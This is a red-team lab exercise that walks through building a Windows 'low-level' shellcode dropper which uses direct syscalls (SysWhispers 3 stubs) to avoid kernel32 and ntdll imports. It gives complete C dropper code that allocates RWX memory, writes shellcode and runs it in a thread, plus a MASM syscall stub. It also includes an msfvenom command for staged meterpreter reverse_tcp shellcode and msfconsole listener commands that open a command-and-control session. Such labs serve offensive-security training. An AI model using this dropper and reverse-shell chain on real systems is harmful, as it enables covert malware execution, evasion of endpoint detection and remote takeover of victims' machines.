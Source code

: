 ## LAB Exercise 4:Direct Syscall Dropper
In this exercise we will make the second modification to the reference dropper, create the direct syscall dropper and implement the required syscalls or syscall stubs directly into the dropper, calling it the Low Level Direct Syscall Dropper or LLDSC for short. 
![low_level_dropper_principal](https://user-images.githubusercontent.com/50073731/235438881-e4af349a-0109-4d8e-80e2-730915c927f6.png)

## Exercise 4 Tasks:
### Creating a Low-Level Dropper 
1. Download the LLDSC Visual Studio POC.
2. Look at the .asm file and add the missing code for the remaining native APIs according to the scheme of the already implemented code for NtAllocateVirutalAMemory. 
3. Create cmd=calc.exe shellcode with msfvenom, copy it to the POC, compile it and do a first run. 
4. If calc.exe ran successfully, create staged x64 meterpreter shellcode with msfvenom and copy it to the POC. 
5. Compile the low level dropper as release or debug x64. 
6. Create and run a staged x64 meterpreter listener using msfconsole.
7. Run your compiled .exe and check that a stable command and control channel opens. 
### Analysing the Low-Level Dropper
6. Use the Visual Studio **dumpbin** tool to analyse the compiled low-level dropper. Is the result what you expected?  
7. Use the **API Monitor** tool to analyse the compiled low level dropper in the context of the four APIs used. Is the result what you expected? 
8. Use the debugger **x64dbg** to analyse the compiled low level dropper: from which module and location are the syscalls of the four APIs used executed? Is the result what you expected? 

## Assembly Instructions
As mentioned above, instead of using a tool to create the assembly instructions, we will manually implement the necessary code into the syscalls.asm file from our direct syscall POC for the best learning experience. The code needed to implement the syscall stub in the syscalls.asm file looks like this and can be used as a template to add the syscall stub for the other three missing native APIs ``NtWriteVirtualMemory``, ``NtCreateThreadEx`` and ``NtWaitForSingleObject``.
<details>
```
.CODE  ; Start the code section

; Procedure for the NtAllocateVirtualMemory syscall
NtAllocateVirtualMemory PROC
    mov r10, rcx                                    ; Move the contents of rcx to r10. This is necessary because the syscall instruction in 64-bit Windows expects the parameters to be in the r10 and rdx registers.
    mov eax, 18h                                    ; Move the syscall number into the eax register.
    syscall                                         ; Execute syscall.
    ret                                             ; Return from the procedure.
NtAllocateVirtualMemory ENDP     

END  ; End of the module    
```
</details>





## Visual Studio
To create the Low-Level-Dropper project, follow the procedure of the High-Level-Dropper exercise, take a look to follow the necessary steps.
The code works as follows, shellcode declaration is the same as before in both droppers.
<details>

```
// Insert the Meterpreter shellcode as an array of unsigned chars (replace the placeholder with actual shellcode)
    unsigned char code[] = "\xfc\x48\x83";
```
</details>


In the case of the Low-Level-Dropper, we also need to access the syscalls or syscalls stub from the respective native APIs. Again, we use the same native APIs as in the Medium-Level-Dropper. 
But this time we do not want to run/import the syscalls from ntdll.dll and instead want to implement the functionality directly in the Low-Level-Dropper itself, we have to import the generated files/code from SysWhispers 3 into our Low-Level-Dropper. The syscalls.h provides the structure of the used native APIs NtAllocateVirtualMemory, NtWriteVirtualMemory, NtCreateThreadEx and NtWaitForSingleObject and the syscalls-asm.x64.asm contains the corresponding syscalls or syscall stubs. This allows the Low-Level-Dropper to execute syscalls directly without the transition from dropper.exe -> kernel32.dll -> ntdll.dll. Practically, we need to implement the generated code with SysWhispers 3 as follows: 

1. Copy all three files we created with SysWhispers 3 into the directory of your Low-Level-Dropper Visual Studio project.
<details>
 
<p align="center">
<img width="697" alt="image" src="https://user-images.githubusercontent.com/50073731/235456064-2b124b99-6936-4a96-a878-2e8dd8cdb460.png">
</details>

    
2. Add the syscalls.h file to your Low-Level-Dropper project as a header file. 
<details>
 
<p align="center">
<img width="1269" alt="image" src="https://user-images.githubusercontent.com/50073731/235456468-ffd08548-6f71-4904-821c-6d88580fa3fb.png">
<img width="599" alt="image" src="https://user-images.githubusercontent.com/50073731/235456549-4385fe3d-4a77-49d7-a153-19e0c5e54cf8.png">
</details>

3. We also need to include the header syscalls.h as a library in our code. 
Customisations.
<details>
 
<p align="center">
<img width="1285" alt="image" src="https://user-images.githubusercontent.com/50073731/235458107-e86178b5-f4f2-4110-a415-d93a08f61373.png">
</details>

4. Add the syscalls-asm.x64.asm file as a resource file. 
<details>
 
<p align="center">
<img width="1268" alt="image" src="https://user-images.githubusercontent.com/50073731/235456751-b44a0786-5225-46d7-9ec3-032a6b8ab36c.png">
<img width="590" alt="image" src="https://user-images.githubusercontent.com/50073731/235456831-138e449f-11ae-4cc6-9483-4073eed67c49.png">
</details>

5. Add the file syscall.c as source file
<details>
 
<p align="center">
<img width="1263" alt="image" src="https://user-images.githubusercontent.com/50073731/235457023-473375d1-591d-4479-b47c-2918af056ff2.png">
<img width="598" alt="image" src="https://user-images.githubusercontent.com/50073731/235457085-bf6775f0-c370-4bb0-b883-db99123b06ca.png">
</details>

6. To use the assembly code from the syscalls-asm.x64.asm file in Visual Studio, you must enable the Microsoft Macro Assembler (.masm) option in Build Dependencies/Build. Customisations.
<details>
 
<p align="center">
<img width="1278" alt="image" src="https://user-images.githubusercontent.com/50073731/235457590-371f3519-b7cf-483d-9c1c-6bfd6368be42.png">
<img width="590" alt="image" src="https://user-images.githubusercontent.com/50073731/235457782-780d2136-30d7-4e87-a022-687ed2557b33.png">
</details>

7. Then we need to set the Item Type of the syscalls-asm.x64.asm file to Microsoft Macro Assembler, otherwise we will get an unresolved symbol error in the context of the native APIs used in our Low-Level-Dropper. 
<details>
 
<p align="center">
<img width="950" alt="image" src="https://user-images.githubusercontent.com/50073731/235471947-4bcd23fc-5093-4f4d-adc8-eb3ef36f139f.png">    
<img width="1237" alt="image" src="https://user-images.githubusercontent.com/50073731/235458968-e330799e-51ff-46bf-97ab-c7d3be7ea079.png">
<img width="778" alt="image" src="https://user-images.githubusercontent.com/50073731/235459219-4387dc48-56f8-481c-b978-1b786843a836.png">
    
</details>

Here is the **complete code**, and you can copy and paste this code into your **Low-Level-Dropper** project in Visual Studio.
You can also download the complete **Low-Level-Dropper Visual Studio project** in the **Code Example section** of this repository.
<details>
    
```
#include <iostream>
#include <Windows.h>
#include "syscalls.h"

int main() {
    // Insert Meterpreter shellcode
    unsigned char code[] = "\xfc\x48\x83...";

    // Allocate Virtual Memory with PAGE_EXECUTE_READWRITE permissions to store the shellcode
    // 'exec' will hold the base address of the allocated memory region
    void* exec = NULL;
    SIZE_T size = sizeof(code);
    NtAllocateVirtualMemory(GetCurrentProcess(), &exec, 0, &size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // Copy the shellcode into the allocated memory region
    SIZE_T bytesWritten;
    NtWriteVirtualMemory(GetCurrentProcess(), exec, code, sizeof(code), &bytesWritten);

    // Execute the shellcode in memory using a new thread
    // Pass the address of the shellcode as the thread function (StartRoutine) and its parameter (Argument)
    HANDLE hThread;
    NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, GetCurrentProcess(), exec, exec, FALSE, 0, 0, 0, NULL);

    // Wait for the end of the thread to ensure the shellcode execution is complete
    NtWaitForSingleObject(hThread, FALSE, NULL);


    // Return 0 as the main function exit code
    return 0;
}
```
</details>

    
    
    
## Meterpreter Shellcode
Again, we will create our meterpreter shellcode with msfvenom in Kali Linux. To do this, we will use the following command and create x64 staged meterpreter shellcode.
<details>
    
 **kali>**   
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IPv4_Redirector_or_IPv4_Kali LPORT=80 -f c > /tmp/shellcode.txt
```
<p align="center">
<img width="696" alt="image" src="https://user-images.githubusercontent.com/50073731/235358025-7267f8c6-918e-44e9-b767-90dbd9afd8da.png">
</p>

The shellcode can then be copied into the Low-Level-Dropper poc by replacing the placeholder at the unsigned char, and the poc can be compiled as an x64 release.<p align="center">
<img width="479" alt="image" src="https://user-images.githubusercontent.com/50073731/235414557-d236582b-5bab-4754-bd12-5f7817660c3a.png">
</p>
</details>    


## MSF-Listener
Before we test the functionality of our Low-Level-Dropper, we need to create a listener within msfconsole.
<details>
    
**kali>**
```
msfconsole
```
**msf>**
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost IPv4_Redirector_or_IPv4_Kali
set lport 80 
set exitonsession false
run
```
<p align="center">
<img width="510" alt="image" src="https://user-images.githubusercontent.com/50073731/235358630-09f70617-5f6e-4f17-b366-131f8efe19d7.png">
</p>
</details>
 
    
Once the listener has been successfully started, you can run your compiled Low-Level-Dropper.exe. If all goes well, you should see an incoming command and control session. 
<details>
    
<p align="center">
<img width="674" alt="image" src="https://user-images.githubusercontent.com/50073731/235369228-84576762-b3b0-4cf7-a265-538995d42c40.png">
</p>
</details>
        

    
## Low-Level-Dropper analysis: dumpbin 
The Visual Studio tool dumpbin can be used to check which Windows APIs are imported via kernel32.dll. The following command can be used to check the imports. Which results do you expect?
<details>    
    
**cmd>**
```
cd C:\Program Files (x86)\Microsoft Visual Studio\2019\Community
dumpbin /imports low_level.exe
```
</details>    

<details>
    <summary>Solution</summary>  
    
**No imports** from the Windows APIs VirtualAlloc, WriteProcessMemory, CreateThread, and WaitForSingleObject from kernel32.dll. This was expected and is correct.
<p align="center">
<img width="1023" alt="image" src="https://user-images.githubusercontent.com/50073731/235473764-c85ccc73-a1cb-403d-8162-172146375d96.png">
</p>
</details>   
    
    
## Low-Level-Dropper analysis: API-Monitor
For a correct check, it is necessary to filter to the correct APIs. Only by providing the correct Windows APIs and the corresponding native APIs, we can be sure that there are no more transitions in the context of the used APIs in our Medium-Level-Dropper. We filter on the following API calls:
- VirtualAlloc
- NtAllocateVirtualMemory
- WriteProcessMemory
- NtWriteVirtualMemory
- CreateThread
- NtCreateThreadEx
- WaitForSingleObject
- NtWaitForSingleObject

<details>
    <summary>Solution</summary>    
If everything was done correctly, you could see that the four used Windows APIs and their native APIs are no longer imported from kernel32.dll and ntdll.dll to the Low-Level-Dropper.exe.
This result was expected and is correct because our Low-Level-Dropper has directly implemented the necessary syscalls or syscall stubs for the respective native APIs NtAllocateVirtualMemory, NtWriteVirtualMemory, NtCreateThreadEx and NtWaitForSingleObject.
<p align="center">
<img width="595" alt="image" src="https://user-images.githubusercontent.com/50073731/235480936-df805736-aad8-44a7-8bec-f8563735d1d2.png">
</p>
</details>    

## Low-Level-Dropper analysis: x64dbg 
Using x64dbg we want to validate from which module and location the respective system calls are executed in the context of the used Windows APIs -> native APIs?
Remember, now we have not implemented system calls or system call stubs directly in the dropper. What results would you expect?
<details>
    <summary>Solution</summary>
    
1. Open or load your Low-Level-Dropper.exe into x64dbg
2. Go to the Symbols tab, in the **left pane** in the **Modules column** select or highlight your **Low-Level-Dropper.exe**, in the **right pane** in the **Symbols column** filter for the first native API **NtAllocateVirtualMemory**, right click and **"Follow in Dissassembler"**. To validate the other three native APIs, NtWriteVirtualMemory, NtCreateThreadEx and NtWaitForSingleObject, just **repeat this procedure**. Compared to the High-Level-Dropper and the Medium-Level-Dropper we can see that the symbols for the used native APIs are implemented directly in the dropper itself and not imported from the ntdll.dll.
    
<p align="center">    
<img width="979" alt="image" src="https://user-images.githubusercontent.com/50073731/235481553-012459f5-1284-44ed-b3ed-2b04bfcccd3b.png">
</p>
    
As expected, we can observe that the corresponding system calls for the native APIs NtAllocateVirtualMemory, NtWriteVirtualMemory, NtCreateThreadEx, NtWaitForSingleObject are no longer 
imported from the .text section in the ntdll.dll module. Instead the syscalls or syscalls stubs are directly implemtented into the .text section of the Low-Level-Dropper itself.
    
<p align="center">    
<img width="990" alt="image" src="https://user-images.githubusercontent.com/50073731/235482389-35cd8c12-593e-4089-b082-8eaf2ba6636a.png"></p>    
</details>


## Summary:
- Made transition from medium to low level or from Native APIs to direct syscalls
- Dropper imports no longer Windows APIs from kernel32.dll
- Dropper imports no longer Native APIs from ntdll.dll
- Syscalls or syscall stubs are "implemented" directly into .text section of .exe
